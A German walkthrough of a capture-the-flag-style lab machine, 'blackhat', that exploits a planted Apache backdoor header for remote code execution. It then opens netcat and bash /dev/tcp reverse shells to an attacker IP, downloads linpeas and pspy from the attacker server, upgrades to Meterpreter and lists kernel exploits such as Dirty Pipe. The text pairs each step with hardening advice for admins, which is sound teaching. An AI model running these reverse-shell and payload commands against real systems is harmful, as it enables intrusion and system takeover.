Bildbeschreibung: hier sieht man die deaktivierung von Javascript
Bildbeschreibung: hier sieht man die freilegung des sourcecodes durch rechtsklick
**Analyse:** Mit der RCE-Fähigkeit als `www-data` möchte ich eine stabilere interaktive Shell erhalten. Ich prüfe zunächst, ob das `nc` (Netcat) Binary auf dem Zielsystem verfügbar ist, indem ich `which nc` über den Backdoor-Header ausführe.
**Bewertung:** Der Befehl `which nc` gibt `/usr/bin/nc` zurück, was bedeutet, dass Netcat auf dem System installiert und im PATH des `www-data` Benutzers verfügbar ist. Netcat ist ein vielseitiges Tool, das sich hervorragend für den Aufbau von Reverse Shells eignet, insbesondere mit der `-e` Option zur Ausführung eines Binaries nach Verbindungsaufbau.
**Empfehlung (Pentester):** Prüfen Sie die Verfügbarkeit gängiger Binaries (`nc`, `python`, `python3`, `php`, `bash`, `sh`) auf einem kompromittierten System, um die Möglichkeiten für die Erlangung einer stabilen Shell zu bewerten.
**Empfehlung (Admin):** Entfernen Sie unnötige Entwicklungstools und Netzwerk-Utilities wie Netcat von Produktionssystemen, falls sie nicht explizit benötigt werden.
Prüfen der Verfügbarkeit von Netcat über die Backdoor:
/usr/bin/nc
**Analyse:** Da Netcat verfügbar ist, versuche ich, eine Reverse Shell von der Zielmaschine (`blackhat.hmv`) zu meiner Angreifer-Maschine (`192.168.2.199`) auf Port 4444 zu initiieren. Ich nutze wieder den "Backdoor"-Header, um den Befehl `nc -e /bin/bash 192.168.2.199 4444` auszuführen. Dieser Befehl weist Netcat an, eine Verbindung zu meiner IP auf Port 4444 aufzubauen und `/bin/bash` an die eingehende Verbindung zu binden.
**Bewertung:** Der Befehl wurde abgesetzt. Die Tatsache, dass keine unmittelbare Fehlermeldung zurückkommt, deutet darauf hin, dass der Befehl wahrscheinlich erfolgreich ausgeführt wurde. Die Shell-Verbindung sollte nun auf meinem Listener ankommen.
**Empfehlung (Pentester):** Vor dem Auslösen einer Reverse Shell immer zuerst einen Listener auf der Angreifer-Maschine einrichten. Gängige Reverse Shell Payloads für verschiedene Binaries und Protokolle (Netcat, Bash, Python, PHP, Perl, Ruby etc.) kennen.
**Empfehlung (Admin):** Filtern Sie ausgehenden Netzwerkverkehr von Webservern und anderen Systemen, um Reverse Shells zu verhindern. Erlauben Sie nur notwendige ausgehende Verbindungen zu bekannten, sicheren Zielen.
Initiierung einer Reverse Shell von Blackhat zu meiner Maschine über die Backdoor:
**Analyse:** Auf meiner Angreifer-Maschine (192.168.2.199) habe ich einen Netcat-Listener auf Port 4444 eingerichtet (`nc -lvnp 4444`), um die erwartete Reverse Shell zu empfangen. Der Output zeigt, dass eine eingehende Verbindung von der Ziel-IP (192.168.2.34) auf Port 4444 registriert wurde und erfolgreich eine Shell-Sitzung geöffnet wurde. Der erste Prompt auf dem Listener ist `www-data@blackhat:/$`. Ich führe den Befehl `id` aus, um meine Identität zu bestätigen, und `which python3`, um zu prüfen, ob Python 3 verfügbar ist.
**Bewertung:** **Fantastisch! Der erste Zugriff war erfolgreich!** Ich habe eine interaktive Shell auf dem Zielsystem als Benutzer `www-data` erhalten. Der `id` Befehl bestätigt meine niedrigen Privilegien. Die Verfügbarkeit von Python 3 ist eine nützliche Information, da Python oft für Privilege Escalation Skripte verwendet werden kann. Ich habe nun eine stabile Basis auf dem System, um mit der lokalen Enumeration und der Suche nach Wegen zur Privilege Escalation fortzufahren.
**Empfehlung (Pentester):** Sammeln Sie sofort Systeminformationen. Überprüfen Sie Dateisystemberechtigungen, laufende Prozesse, installierte Software, Konfigurationsdateien und potenzielle Schwachstellen für Privilege Escalation (z.B. SUID-Binaries, Cronjobs, unsichere Berechtigungen, Kernel-Schwachstellen). Laden Sie Enumerations-Skripte wie `linpeas.sh` hoch.
**Empfehlung (Admin):** **Erster Zugriff durch RCE:** Dies ist kritisch und erfordert sofortige Behebung der Backdoor. Überprüfen Sie außerdem Firewalls und Netzwerksegmentierung, um zu verhindern, dass Reverse Shells zu externen Hosts aufgebaut werden können.
Empfangen der Reverse Shell auf meiner Maschine und Bestätigung des ersten Zugriffs:
listening on [any] 4444 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.34] 35934 id uid=33(www-data) gid=33(www-data) groups=33(www-data) which python3 /usr/bin/python3 www-data@blackhat:/$ ----- www-data@blackhat:/tmp$
Dieser Bereich demonstriert die Ausnutzung einer absichtlich eingebauten Backdoor, die über einen spezifischen HTTP-Header Remote Code Execution (RCE) als Webserver-Benutzer (`www-data`) ermöglichte. Dies führte zum ersten Zugriff auf das Zielsystem.
Die Webanwendung enthält ein benutzerdefiniertes Apache-Modul namens `mod_backdoor`, das Befehle, die im Wert eines HTTP-Headers namens "Backdoor" gesendet werden, direkt auf dem System ausführt. Diese Schwachstelle erlaubt unauthentifizierten Angreifern, beliebige Systembefehle mit den Rechten des Webserver-Benutzers (`www-data`) auszuführen.
**Schritt 1: Identifizierung der Backdoor.** Während der Web-Enumeration wurden Hinweise auf eine Backdoor gefunden: Ein Kommentar im HTML-Source Code der Startseite ("check backboor") und die Listung eines ungewöhnlichen Apache-Moduls (`mod_backdoor`) in der `phpinfo.php`.
**Schritt 2: Entdeckung des Backdoor-Headers.** Mittels Fuzzing wurde identifiziert, dass ein HTTP-Header namens "Backdoor" existiert und eine Reaktion des Servers hervorruft, wenn ein Wert zugewiesen wird.
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "FUZZ: id" --hh 1437 http://blackhat.hmv/
**Ergebnis von Schritt 2:** Der Fuzzing-Output bestätigt den "Backdoor"-Header als gültig.
000181647: 200 1 L 3 W 54 Ch "Backdoor"
**Schritt 3: Verifikation der Remote Code Execution.** Es wird eine `curl` Anfrage gesendet, die den "Backdoor"-Header mit dem Wert `id` enthält.
curl http://blackhat.hmv/ -H "Backdoor: id" -s | tail -n 1
**Ergebnis von Schritt 3:** Die Ausgabe des `id`-Befehls (`uid=33(www-data) gid=33(www-data) groups=33(www-data)`) wird in der HTTP-Antwort zurückgegeben. Dies beweist erfolgreiche RCE als Benutzer `www-data`.
uid=33(www-data) gid=33(www-data) groups=33(www-data)
**Schritt 4: Vorbereitung des Listeners.** Auf der Angreifer-Maschine wird ein Netcat-Listener auf Port 4444 gestartet, um die Reverse Shell zu empfangen.
listening on [any] 4444 ...
**Schritt 5: Auslösen der Reverse Shell.** Der "Backdoor"-Header wird erneut genutzt, um einen Befehl auszuführen, der eine Reverse Shell zu unserem Netcat-Listener auf 192.168.2.199 auf Port 4444 initiiert (`nc -e /bin/bash 192.168.2.199 4444`).
curl http://blackhat.hmv/ -H "Backdoor: nc -e /bin/bash 192.168.2.199 4444" -s | tail -n 1
Der Netcat-Listener auf der Angreifer-Maschine sollte eine eingehende Verbindung vom Zielsystem (192.168.2.34) auf Port 4444 registrieren und eine interaktive Shell als Benutzer `www-data` bereitstellen.
Der Output des Netcat-Listeners zeigt die eingehende Verbindung und den `www-data` Shell-Prompt, was den erfolgreichen ersten Zugriff belegt.
listening on [any] 4444 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.34] 35934 id uid=33(www-data) gid=33(www-data) groups=33(www-data) which python3 /usr/bin/python3 www-data@blackhat:/$ ----- www-data@blackhat:/tmp$
**Kritisch:** Diese Backdoor ermöglicht unauthentifizierten RCE, was zur vollständigen Kompromittierung des Webservers und potenziellen weiteren Angriffen führen kann. Dies ist eine der schwerwiegendsten Schwachstellen.
**Analyse:** Nachdem ich eine interaktive Shell als `www-data` erhalten habe, beginne ich mit der Enumeration des Systems, um Möglichkeiten zur Privilege Escalation (PE) zu finden. Ich suche nach SUID-Binaries (`find / -type f -perm -4000 -ls 2>/dev/null`), die es einem normalen Benutzer erlauben, sie mit den Rechten des Dateibesitzers (oft root) auszuführen. Die Ausgabe listet mehrere solcher Binaries auf.
**Bewertung:** Die Liste enthält standardmäßige SUID-Binaries wie `su`, `passwd`, `mount`, `sudo`, `gpasswd` usw. Diese sind auf den meisten Linux-Systemen vorhanden. `sudo` ist oft ein Ansatzpunkt, wenn die Konfiguration es erlaubt, bestimmte Befehle als Root auszuführen. Andere Binaries können bekannte Exploits haben oder für ungewöhnliche Konfigurationen genutzt werden. Ich werde diese Liste als Referenz für potenzielle PE-Vektoren behalten.
**Empfehlung (Pentester):** Untersuchen Sie jedes gefundene SUID-Binary auf bekannte Schwachstellen oder ungewöhnliches Verhalten. Prüfen Sie die `sudo` Konfiguration (`sudo -l`) als nächsten Schritt.
**Empfehlung (Admin):** Minimieren Sie die Anzahl der Binaries mit gesetztem SUID-Bit. Überprüfen und patchen Sie regelmäßig Binaries, die bekanntermaßen anfällig sind (obwohl die hier gelisteten standardmäßig relativ sicher sind, wenn richtig konfiguriert).
www-data@blackhat:/$ find / -type f -perm -4000 -ls 2>/dev/null 133541 72 -rwsr-xr-x 1 root root 71912 Jan 20 2022 /usr/bin/su 129888 64 -rwsr-xr-x 1 root root 63960 Feb 7 2020 /usr/bin/passwd 133908 56 -rwsr-xr-x 1 root root 55528 Jan 20 2022 /usr/bin/mount 129884 60 -rwsr-xr-x 1 root root 58416 Feb 7 2020 /usr/bin/chfn 133910 36 -rwsr-xr-x 1 root root 35040 Jan 20 2022 /usr/bin/umount 163353 180 -rwsr-xr-x 1 root root 182600 Feb 27 2021 /usr/bin/sudo 129887 88 -rwsr-xr-x 1 root root 88304 Feb 7 2020 /usr/bin/gpasswd 129885 52 -rwsr-xr-x 1 root root 52880 Feb 7 2020 /usr/bin/chsh 133382 44 -rwsr-xr-x 1 root root 44632 Feb 7 2020 /usr/bin/newgrp 266985 52 -rwsr-xr-- 1 root messagebus 51336 Oct 5 2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper 147507 472 -rwsr-xr-x 1 root root 481608 Jul 2 2022 /usr/lib/openssh/ssh-keysign
**Analyse:** Ich setze meine System-Enumeration fort. Ich überprüfe die offenen Netzwerkverbindungen mit `ss -altpn`, um laufende Dienste zu sehen. Dann überprüfe ich die Dateisystemberechtigungen für die kritischen Systemdateien `/etc/passwd` und `/etc/shadow` mit `ls -la`.
**Bewertung:** Die Ausgabe von `ss` zeigt, dass als `www-data` nur der Webserver auf Port 80 offen ist. Es gibt keine ungewöhnlichen offenen Ports, die auf interne Dienste hindeuten, die von `www-data` erreicht werden könnten. Die Berechtigungen von `/etc/passwd` (`-rw-r--r--`) erlauben `www-data` das Lesen der Datei, was für die Benutzer-Enumeration nützlich ist (wie wir zuvor über die Backdoor getan haben). Die Berechtigungen von `/etc/shadow` (`-rw-r-----`) erlauben `www-data` *nicht* das Lesen, da die Datei nur für Root und die Gruppe `shadow` lesbar ist. Dies verhindert das einfache Auslesen von Passwort-Hashes.
**Empfehlung (Pentester):** Sammeln Sie immer Informationen über laufende Dienste und Dateiberechtigungen auf kritischen Systemdateien. Das Lesen von `/etc/passwd` ist ein Standard-Enumerationsschritt.
**Empfehlung (Admin):** Stellen Sie sicher, dass `/etc/shadow` nur für Root lesbar ist. Überprüfen Sie die Berechtigungen anderer sensibler Konfigurationsdateien.
www-data@blackhat:/$ ss -altpn State Recv-Q Send-Q Local Address:Port Peer Address:Port Process LISTEN 0 511 *:80 *:* www-data@blackhat:/$ www-data@blackhat:/$ ls -la /etc/passwd -rw-r--r-- 1 root root 1482 Nov 11 2022 /etc/passwd www-data@blackhat:/$ ls -la /etc/shadow -rw-r----- 1 root shadow 840 Nov 19 2022 /etc/shadow
**Analyse:** Ich wechsle in das Home-Verzeichnis des Benutzers `darkdante` (`/home/darkdante`) und liste den Inhalt mit detaillierten Berechtigungen auf (`ls -la`).
**Bewertung:** Das Listing bestätigt das Home-Verzeichnis von `darkdante`. Alle Dateien und Verzeichnisse gehören dem Benutzer `darkdante`. Die Berechtigungen sind für `www-data` (als "other") auf Verzeichnisse `drwxr-xr-x` und Dateien `rw-r--r--` oder `rwx------` beschränkt. Wichtiger ist die Datei `user.txt` mit Berechtigungen `-rwx------`. Diese Berechtigung bedeutet, dass *nur* der Benutzer `darkdante` diese Datei lesen, schreiben und ausführen kann. Als `www-data` habe ich keinen Zugriff darauf. Der Symlink `.bash_history -> /dev/null` ist interessant, verhindert aber nur das Speichern von Befehlen, keine direkte Schwachstelle.
**Empfehlung (Pentester):** Da die `user.txt` für `www-data` nicht lesbar ist, muss ich auf den Benutzer `darkdante` eskalieren, um die Flag zu erhalten. Der Fokus liegt auf der Kompromittierung des `darkdante` Accounts.
**Empfehlung (Admin):** Stellen Sie sicher, dass sensible Dateien in Home-Verzeichnissen nur für den Eigentümer lesbar sind (`chmod 600`). Überprüfen Sie symbolische Links, um sicherzustellen, dass sie nicht auf kritische Systemdateien verweisen, die dann unbeabsichtigt zugänglich werden.
www-data@blackhat:/home/darkdante$ ls -la total 28 drwxr-xr-x 3 darkdante darkdante 4096 Nov 13 2022 . drwxr-xr-x 3 root root 4096 Nov 11 2022 .. lrwxrwxrwx 1 root root 9 Nov 11 2022 .bash_history -> /dev/null -rw-r--r-- 1 darkdante darkdante 220 Nov 11 2022 .bash_logout -rw-r--r-- 1 darkdante darkdante 3526 Nov 11 2022 .bashrc drwxr-xr-x 3 darkdante darkdante 4096 Nov 11 2022 .local -rw-r--r-- 1 darkdante darkdante 807 Nov 11 2022 .profile -rwx------ 1 darkdante darkdante 33 Nov 11 2022 user.txt
**Analyse:** Ich prüfe die OS-Version, indem ich den Inhalt von Dateien im `/etc/` Verzeichnis lese, deren Namen "release" enthalten (`cat /etc/*leas*`). Dies gibt Informationen über die installierte Distribution und Version. Ich dokumentiere auch den seltsamen `.bash_history` Symlink, den ich im Home-Verzeichnis von `darkdante` gefunden habe. Im Originaltext wird angemerkt, dass dieser Pfad und eine Überlegung bezüglich einer Race Condition in `/tmp` Sackgassen waren.
**Bewertung:** Die Ausgabe `PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"` bestätigt, dass das System Debian 11 ("bullseye") ist. Diese Information ist sehr wichtig für die Recherche nach Kernel-Exploits oder Paket-spezifischen Schwachstellen. Die Notiz über Sackgassen und die Race Condition Überlegung ist wertvoll für die Dokumentation des tatsächlichen Testverlaufs – nicht jeder getestete Weg führt zum Ziel. Der Symlink `.bash_history -> /dev/null` bedeutet, dass die Bash-History für diesen Benutzer nicht gespeichert wird.
**Empfehlung (Pentester):** Sammeln Sie immer die genaue OS-Version. Dies ist entscheidend für die Auswahl passender Kernel-Exploits oder paketbasierter PE-Methoden. Dokumentieren Sie auch gescheiterte Versuche und Sackgassen – dies zeigt den Aufwand und die getesteten Hypothesen.
**Empfehlung (Admin):** Halten Sie Systeme aktuell, um bekannte Schwachstellen zu schließen. Überprüfen Sie Konfigurationsdateien und Benutzer-Home-Verzeichnisse auf ungewöhnliche Einstellungen oder Dateien, die Sicherheitsrisiken darstellen könnten.
www-data@blackhat:/home/darkdante$ cat /etc/*leas* PRETTY_NAME="Debian GNU/Linux 11 (bullseye)" NAME="Debian GNU/Linux" VERSION_ID="11" VERSION="11 (bullseye)" VERSION_CODENAME=bullseye ID=debian HOME_URL="[Link: https://www.debian.org/ | Ziel: https://www.debian.org/]" SUPPORT_URL="[Link: https://www.debian.org/support | Ziel: https://www.debian.org/support]" BUG_REPORT_URL="[Link: https://bugs.debian.org/ | Ziel: https://bugs.debian.org/]"
Ein seltsamer .bash_history Symlink: lrwxrwxrwx 1 root root 9 Nov 11 2022 .bash_history -> /dev/null aber alles nur sackgasse leider... keine schreibrechte daher meine überlegung racecondition gekippt...
**Analyse:** Um die Privilege Escalation auf dem System systematisch zu untersuchen, lade ich zwei gängige Linux-Enumerations-Skripte von meiner Angreifer-Maschine (`192.168.2.199`) in das beschreibbare `/tmp` Verzeichnis auf dem Zielsystem herunter: `pspy64` (ein Tool zur Überwachung von Prozessen ohne Root-Rechte) und `linpeas.sh` (ein umfassendes PE-Enumerationsskript). Dazu starte ich einen einfachen HTTP-Server auf meiner Maschine (Port 8000) und nutze `wget` auf dem Zielsystem.
**Bewertung:** Das Hochladen der Tools war erfolgreich. Diese Skripte sind sehr wertvoll, da sie automatisch eine Vielzahl von potenziellen PE-Vektoren auf dem System überprüfen und Ergebnisse hervorheben, die man bei manueller Enumeration leicht übersehen könnte (z.B. Kernel-Schwachstellen, unsichere Dateiberechtigungen, Cronjobs, SUID/SGID-Binaries, Konfigurationsfehler). Das `/tmp` Verzeichnis ist ein Standardort für solche temporären Dateien, da es oft für alle Benutzer schreibbar ist.
**Empfehlung (Pentester):** Nutzen Sie standardmäßige Enumerations-Skripte wie `linpeas.sh` und `pspy64` (oder ähnliche), um die lokale PE-Phase zu beschleunigen und zu standardisieren. Laden Sie diese in ein beschreibbares Verzeichnis wie `/tmp` hoch.
**Empfehlung (Admin):** Überwachen Sie die Erstellung von ausführbaren Dateien oder Skripten in temporären Verzeichnissen (`/tmp`, `/dev/shm`) und anderen unsicheren Orten. Implementieren Sie `noexec`-Flags für `/tmp` falls möglich, um die Ausführung von Binaries dort zu verhindern.
Hochladen von Enumerations-Skripten auf das Zielsystem:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
www-data@blackhat:/tmp$ wget 192.168.2.199:8000/pspy64 --2025-06-09 23:38:41-- http://192.168.2.199:8000/pspy64 Connecting to 192.168.2.199:8000... connected. HTTP request sent, awaiting response... 200 OK Length: 3078592 (2.9M) [application/octet-stream] Saving to: ‘pspy64’ pspy64 100%[=============================>] 2.94M --.-KB/s in 0.02s 2025-06-09 23:38:41 (189 MB/s) - ‘pspy64’ saved [3078592/3078592]
www-data@blackhat:/tmp$ wget 192.168.2.199:8000/linpeas.sh --2025-06-09 23:38:44-- http://192.168.2.199:8000/linpeas.sh Connecting to 192.168.2.199:8000... connected. HTTP request sent, awaiting response... 200 OK Length: 827827 (808K) [text/x-sh] Saving to: ‘linpeas.sh’ linpeas.sh 100%[=============================>] 808.42K --.-KB/s in 0.01s 2025-06-09 23:38:44 (74.6 MB/s) - ‘linpeas.sh’ saved [827827/827827]
**Analyse:** Ich führe das `linpeas.sh` Skript aus (`./linpeas.sh`) und filtere die Ausgabe mit `grep 'CVEs Check' -A 10`, um die Ergebnisse der CVE-Überprüfung anzuzeigen. LinPEAS prüft automatisch auf bekannte Kernel- und Software-Schwachstellen. Die Ausgabe listet potenzielle Anfälligkeiten auf.
**Bewertung:** LinPEAS identifiziert mehrere potenzielle Kernel-Schwachstellen, darunter CVE-2022-0847 (Dirty Pipe) und CVE-2022-2588. Es findet auch generelle Schwachstellen-Kategorien wie "Writable PATH abuses". Die Auflistung spezifischer CVEs und allgemeiner PE-Kategorien gibt mir konkrete Ansatzpunkte für die Privilege Escalation. Insbesondere Dirty Pipe (CVE-2022-0847) ist eine bekannte und oft ausnutzbare Kernel-Schwachstelle für die PE auf Root.
**Empfehlung (Pentester):** Untersuchen Sie die von LinPEAS gemeldeten Schwachstellen, insbesondere die Kernel-Exploits. Dirty Pipe ist ein vielversprechender Kandidat. Suchen Sie auf Exploit-Datenbanken nach fertigen Exploits für die identifizierten CVEs und das System (Debian 11, Kernel 5.10.0).
**Empfehlung (Admin):** Aktualisieren Sie den System-Kernel und alle installierten Pakete regelmäßig, um bekannte Schwachstellen zu schließen. Führen Sie regelmäßig Scans mit Tools wie LinPEAS durch, um Konfigurationsprobleme oder ungepatchte Schwachstellen zu finden. Stellen Sie sicher, dass Benutzer-PATHs keine beschreibbaren Verzeichnisse enthalten, die für PATH-Hijacking ausgenutzt werden könnten.
www-data@blackhat:/tmp$ ./linpeas.sh | grep 'CVEs Check' -A 10 . . . . . . ╔══════════╣ CVEs Check Potentially Vulnerable to CVE-2022-0847 Potentially Vulnerable to CVE-2022-2588 ╔══════════╣ PATH ╚ [Link: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses | Ziel: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses] /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
**Analyse:** Als Alternative oder Ergänzung zur manuellen Reverse Shell setze ich Metasploit ein, um eine stabilere Meterpreter-Sitzung zu erhalten und automatisch nach Exploits zu suchen. Ich starte Metasploit im Quiet-Modus (`-q`) und führe direkt den Befehl `use multi/handler` aus, um einen Listener einzurichten. Ich setze das Payload auf `linux/x64/shell_reverse_tcp` (da das System 64-bit Linux ist), setze meine Angreifer-IP (`LHOST`) und den Listener-Port (`LPORT`, hier 4445, um Konflikte zu vermeiden oder weil 4444 belegt war). Ich zeige die Optionen, um die Konfiguration zu verifizieren, und starte dann den Handler (`run`).
**Bewertung:** Der Metasploit-Handler ist erfolgreich auf Port 4445 gestartet und wartet auf eine eingehende Verbindung. Die Verwendung von Metasploit bietet viele Vorteile, insbesondere für die Post-Exploitation und die Nutzung automatisierter Module wie dem `local_exploit_suggester`, das ich als Nächstes verwenden werde. Die Reverse Shell auf Port 4444, die ich zuvor manuell initiiert habe, hat mir bereits eine `www-data` Shell gegeben. Dieser Metasploit-Handler wäre eine alternative Methode, um diese erste Shell zu empfangen oder eine stabilere Sitzung zu initiieren.
**Empfehlung (Pentester):** Nutzen Sie Frameworks wie Metasploit für das Management von Shells und den Einsatz automatisierter Post-Exploitation-Module. Richten Sie immer einen passenden Listener ein.
**Empfehlung (Admin):** (Wiederholung der Empfehlung zur Filterung ausgehenden Traffics). Das Erkennen von Metasploit-Signaturen im Netzwerkverkehr kann auf Angriffe hindeuten.
[*] Using configured payload generic/shell_reverse_tcp set PAYLOAD linux/x64/shell_reverse_tcp PAYLOAD => linux/x64/shell_reverse_tcp set LHOST 192.168.2.199 LHOST => 192.168.2.199 options Payload options (linux/x64/shell_reverse_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- LHOST 192.168.2.199 yes The listen address (an interface may be specified) LPORT 4444 yes The listen port Exploit target: Id Name -- ---- 0 Wildcard Target View the full module info with the info, or info -d command. set lport 4445 lport => 4445 run [*] Started reverse TCP handler on 192.168.2.199:4445
**Analyse:** Ich zeige hier die Ausführung des Bash Reverse Shell Payloads auf dem Zielsystem über die zuvor gefundene Backdoor (`bash -c 'bash -i >& /dev/tcp/192.168.2.199/4445 0>&1'`). Dieser Befehl wird wahrscheinlich über den Backdoor-Header ausgeführt, auch wenn der `curl`-Befehl hier nicht explizit gezeigt wird, da er die Shell auf meinem Metasploit-Handler auf Port 4445 landet. Die Ausgabe zeigt die Bestätigung im Metasploit-Handler, dass die Verbindung hergestellt und eine Shell-Sitzung geöffnet wurde.
**Bewertung:** **Erfolg! Eine Reverse Shell wurde auf dem Metasploit-Handler etabliert.** Dies bestätigt nicht nur die RCE-Fähigkeit, sondern gibt mir nun eine von Metasploit verwaltete Shell-Sitzung, was für die weitere Automatisierung und Nutzung von Post-Exploitation-Modulen von Vorteil ist. Der Prompt `www-data@blackhat:/tmp$` in der Shell-Banner-Ausgabe bestätigt erneut, dass ich als `www-data` agiere und im `/tmp` Verzeichnis gelandet bin.
**Empfehlung (Pentester):** Nutzen Sie die Metasploit-Sitzung, um weitere Enumeration und Privilege Escalation durchzuführen, idealerweise durch Upgrade zu einer Meterpreter-Sitzung.
**Empfehlung (Admin):** (Wiederholung der dringenden Empfehlung zur Behebung der RCE-Backdoor und Filterung ausgehenden Traffics).
Auslösen der Reverse Shell zu meinem Metasploit-Handler:
www-data@blackhat:/tmp$ bash -c 'bash -i >& /dev/tcp/192.168.2.199/4445 0>&1'
[*] Started reverse TCP handler on 192.168.2.199:4445 [*] Command shell session 1 opened (192.168.2.199:4445 -> 192.168.2.34:56398) at 2025-06-09 23:58:54 +0200 Shell Banner: www-data@blackhat:/tmp$ ----- www-data@blackhat:/tmp$
**Analyse:** Innerhalb von Metasploit wechsle ich zur Post-Exploitation-Phase. Ich wähle das Modul `post/multi/manage/shell_to_meterpreter` (mit `use 100` basierend auf der ID aus einem vorherigen `search` oder Wissen über das Modul). Dieses Modul versucht, eine einfache Command Shell (wie die gerade erhaltene) in eine fortgeschrittenere Meterpreter-Sitzung upzugraden. Ich setze die Option `SESSION` auf die ID der erhaltenen Shell-Sitzung (hier 1) und starte das Modul. Das Modul richtet automatisch einen Handler für die Meterpreter-Verbindung ein (Standardport 4433).
**Bewertung:** Das Upgrade auf Meterpreter war erfolgreich. Metasploit startete einen Handler auf Port 4433, sendete die Meterpreter-Stage an die Zielmaschine und öffnete eine neue Meterpreter-Sitzung (Session 2). Eine Meterpreter-Sitzung ist viel leistungsfähiger als eine einfache Shell, da sie eine breite Palette von eingebauten Befehlen und Modulen für Enumeration, Datei-Operationen, Prozess-Management und Privilege Escalation bietet, ohne zusätzliche Binaries auf das Zielsystem hochladen zu müssen.
**Empfehlung (Pentester):** Versuchen Sie immer, eine einfache Shell in eine Meterpreter-Sitzung upzugraden, wenn Sie Metasploit verwenden. Nutzen Sie die Funktionen der Meterpreter-Sitzung für die weitere Post-Exploitation.
**Empfehlung (Admin):** Achten Sie auf ungewöhnlichen Netzwerkverkehr, der durch Stage-Übertragung für Meterpreter oder ähnliche Tools verursacht wird. Host-basierte Intrusion Detection Systeme können solche Aktivitäten erkennen.
Upgrade der Command Shell auf eine Meterpreter-Sitzung:
use 100 options Module options (post/multi/manage/shell_to_meterpreter): Name Current Setting Required Description ---- --------------- -------- ----------- HANDLER true yes Start an exploit/multi/handler to receive the connection LHOST no IP of host that will receive the connection from the payload (Will try to auto detect). LPORT 4433 yes Port for payload to connect to. SESSION yes The session to run this module on View the full module info with the info, or info -d command. set session 1 session => 1 run [*] Upgrading session ID: 1 [*] Starting exploit/multi/handler [*] Started reverse TCP handler on 192.168.2.199:4433 [*] Sending stage (1017704 bytes) to 192.168.2.34 [*] Meterpreter session 2 opened (192.168.2.199:4433 -> 192.168.2.34:50028) at 2025-06-10 00:01:09 +0200 [*] Command stager progress: 100.00% (773/773 bytes) [*] Post module execution completed
**Analyse:** Innerhalb der Meterpreter-Sitzung suche ich nach lokalen Privilege Escalation Exploits, die für das Zielsystem relevant sein könnten. Ich verwende den Befehl `search suggester` und wähle dann das Modul `post/multi/recon/local_exploit_suggester` (ID 0) aus, setze die aktuelle Meterpreter-Sitzung (Session 2) und starte das Modul (`run`). Dieses Modul automatisiert den Prozess des Überprüfens des Zielsystems auf bekannte Schwachstellen und schlägt passende Metasploit-Exploits vor.
**Bewertung:** Der Exploit Suggester hat mehrere potenzielle Schwachstellen identifiziert, für die Metasploit passende Exploits hat. Besonders hervorzuheben sind `cve_2022_0847_dirtypipe` (Dirty Pipe), `glibc_tunables_priv_esc`, `netfilter_priv_esc_ipv4` und `su_login`. Dirty Pipe wurde als potenziell ausnutzbar basierend auf der Kernelversion (5.10.0) identifiziert, was die Ergebnisse von LinPEAS bestätigt. Der `sudoedit_bypass_priv_esc` Exploit wird als nicht ausnutzbar markiert, da die notwendige editierbare Datei nicht gefunden wurde. Diese Liste gibt mir konkrete, geprüfte Exploits, die ich versuchen kann, um meine Privilegien zu erhöhen.
**Empfehlung (Pentester):** Nutzen Sie lokale Exploit Suggester, um schnell eine Liste potenzieller PE-Vektoren zu erhalten. Beginnen Sie mit der Ausnutzung der vielversprechendsten Exploits, wie Dirty Pipe in diesem Fall.
**Empfehlung (Admin):** Aktualisieren Sie den Kernel und die Systembibliotheken, um bekannte Schwachstellen zu schließen (CVE-2022-0847 und andere). Überprüfen Sie die Konfigurationen von Diensten und Dateien, auf die sich die vorgeschlagenen Exploits beziehen (z.B. glibc tunables, netfilter, su).
Verwendung des lokalen Exploit Suggesters in Metasploit:
search suggester Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 post/multi/recon/local_exploit_suggester . normal No Multi Recon Local Exploit Suggester Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester use 0 set session 2 session => 2 run [*] 192.168.2.34 - Collecting local exploits for x86/linux... [*] 192.168.2.34 - 205 exploit checks are being tried... [+] 192.168.2.34 - exploit/linux/local/cve_2022_0847_dirtypipe: The target appears to be vulnerable. Linux kernel version found: 5.10.0 [+] 192.168.2.34 - exploit/linux/local/glibc_tunables_priv_esc: The target appears to be vulnerable. The glibc version (2.31-13+deb11u5) found on the target appears to be vulnerable [+] 192.168.2.34 - exploit/linux/local/netfilter_priv_esc_ipv4: The target appears to be vulnerable. [+] 192.168.2.34 - exploit/linux/local/su_login: The target appears to be vulnerable. [+] 192.168.2.34 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.9.5p2.pre.3 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
**Analyse:** Basierend auf den Vorschlägen des Exploit Suggesters wähle ich den Exploit `exploit/linux/local/cve_2022_0847_dirtypipe` (Dirty Pipe), da er oft zuverlässig ist. Ich setze die notwendigen Optionen: `LPORT` (auf 5555, für die Reverse Shell, die der Exploit liefern soll), `COMPILE` und `COMPILER` auf Auto (damit Metasploit den Exploit bei Bedarf auf dem Zielsystem kompiliert), `SESSION` auf die aktuelle Meterpreter-Sitzung (2) und `WRITABLE_DIR` auf `/tmp` (ein Verzeichnis, in das ich schreiben darf und in dem der Exploit temporäre Dateien ablegen kann). Schließlich setze ich `LHOST` auf meine Angreifer-IP und führe den Exploit aus (`run`).
